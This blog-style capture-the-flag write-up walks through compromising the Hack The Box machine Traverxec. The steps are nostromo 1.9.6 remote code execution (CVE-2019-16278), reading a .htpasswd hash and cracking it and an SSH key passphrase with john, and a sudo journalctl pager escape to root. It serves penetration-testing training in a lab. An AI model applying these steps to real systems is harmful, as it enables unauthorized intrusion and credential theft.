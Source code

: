 ```yaml
---
layout: PostSimple
date: 2020-04-11
title:     "Hack The Box - Traverxec"
tags: ['linux','easy','john','sudo']
layout: PostSimple
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/1.png)

We are going to pwn Traverxec by jkr from Hack The Box. Getting User shell is fun and by using GTFOBins correctly we can get Root easily.


Link : [https://www.hackthebox.eu/home/machines/profile/217](https://www.hackthebox.eu/home/machines/profile/217)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

Looks like an normal webpage and There’s a contact form at the bottom of the page, I send some queries but it’s not doing anything. Also the nmap reveals its ``nostromo 1.9.6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/2.png)

## Method 1 :

Found an exploit in metasploit 

> https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec

So Lets fire up the metasploit and try to get the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/3.png)

I got ``www--data``

## Method 2 (Without Metasploit)

> https://www.exploit-db.com/exploits/47837

```Usage: cve2019-16278.py [Target_IP](Target_IP) [Target_Port](Target_Port) [Command](Command)```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/19.png)

Once I get into the machine I can't move to anyother dir so I tried to get a proper shell first.
```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ cd /var
cd /var
www-data@traverxec:/var$ 
```

While checking ``nostromo`` conf files found that ``.htpasswd`` are located in same dir.[br/](br/)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/5.png)

It gives me user ``david`` hash.[br/](br/)
```
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

And I cracked it with john [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/6.1.png) ``Nowonly4me``[br/](br/)

But I cant ``su david`` with that password. I can't access ``david`` home dir too.[br/](br/)
```
www-data@traverxec:/home$ cd david
cd david
www-data@traverxec:/home/david$ ls
ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ 
```
So I started checking anything else in ``nhttpd.conf`` and noted.

```
# HOMEDIRS [OPTIONAL]

homedirs			/home
homedirs_public		public_www
```

So I googled about ``nhttpd.conf``

>https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/7.png)

>http://10.10.10.165/~david/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/8.png)[br/](br/)
And that Document tell us that we can view them in the home directory as well as via HTTP.[br/](br/)
We know that ``homedirs_public`` is ``public_www`` So I tried to view them in shell.

```
www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/var/nostromo/conf$ ls ~david
ls ~david
ls: cannot open directory '/home/david': Permission denied

www-data@traverxec:/var/nostromo/conf$ ls ~david/public_www
ls ~david/public_www
index.html  protected-file-area

www-data@traverxec:/usr/bin$ ls ~david/public_www/protected-file-area
ls ~david/public_www/protected-file-area
backup-ssh-identity-files.tgz
```
There is Backup-SSH file, Lets download it to our machine using netcat.[br/](br/)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/20.png)

## Another Method to download the SSH backup file:

We know there is ``protected-file-area`` I tried to view them on my webpage.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/9.png)
`` david : Nowonly4me `` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/10.png)

Downloaded that file and extracted on my machine.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/11.png)
We got ssh private key.[br/](br/)

It ask for passphase so I tried to crack with ``john`` again. For that we need use ``ssh2john`` first.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/12.png)

Now we can use this with ``john``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/13.png) `` : hunter``

Got User Flag[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/14.png)

## Privilege Escalation:

There is a script located in the home directory.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/15.png)

While checking it , I found that its running ``journalctl`` as sudo.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.1.png)

>https://gtfobins.github.io/gtfobins/journalctl/

According to this ``journalctl`` we need to shrunk the terminal to two lines and then escaped via less.

So I copied the sudo line [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/16.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/17.png)

`` !/bin/sh ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-traverxec/18.png)

I'm Root !!






